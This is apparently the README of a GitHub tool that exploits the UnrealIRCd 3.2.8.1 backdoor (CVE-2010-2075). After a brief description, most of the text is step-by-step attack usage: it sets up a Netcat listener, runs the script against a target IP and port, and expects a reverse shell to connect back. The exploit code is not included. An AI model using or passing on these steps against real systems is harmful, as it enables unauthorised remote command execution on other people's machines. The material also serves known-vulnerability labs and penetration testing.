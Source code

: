 # UnrealIRCD-3.2.8.1-Backdoor
UnrealIRCd 3.2.8.1 backdoor command execution exploit in Python 3 (CVE-2010-2075).

# Description
[UnrealIRCd](https://www.unrealircd.org/) version 3.2.8.1 contains a trojan horse which allows remote attackers to execute arbitrary commands ([CVE-2010-2075](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2075)).

# Usage
```
nc -lp 4444
```

Execute the script, providing the following positional arguments:
```
python3 script.py <target> <tport> <listener> <lport>
```
- `<target>` Target host IP address.
- `<tport>` Target host port number.
- `<listener>` Listening host IP address.
- `<lport>` Listening host port number.

# Example
Setup a Netcat listener on your local machine:
```
nc -lp 4444
```

Run the script against a target machine at `192.168.0.0` TCP port `6697`:
```
python3 script.py 192.168.0.0 6697 192.168.1.0 4444
```

Wait a minute and the Netcat listener should receive a reverse shell.
